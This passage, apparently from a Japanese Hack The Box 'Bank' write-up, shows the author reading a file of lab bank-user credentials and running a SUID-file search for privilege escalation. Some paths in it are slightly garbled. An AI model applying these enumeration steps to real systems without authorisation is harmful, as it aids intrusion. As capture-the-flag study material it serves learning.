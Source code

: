 ```
$ cat bankreports.txt
cat bankreports.txt
+=================+
| HTB Bank Report |
+=================+

===Users===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 2
Transactions: 8
Balance: 1.337$
===Users===$
```

これで ssh か！と思ったんですけどできませんでした。

## SUIDなファイルを探す

https://github.com/sanposhiho/MY_CHEAT_SHEET/blob/master/Linux/linux_commands.md#suid%E3%81%AA%E3%83%95%E3%82%A1%E3%82%A4%E3%83%AB%E3%82%92%E6%8E%A2%E3%81%99

```
$ find / -perm -u=s -type f 2>/dev ull
find / -perm -u=s -type f 2>/dev ull
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin ewgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```

`/var/htb/bin/emergency`ってなんでしょうか

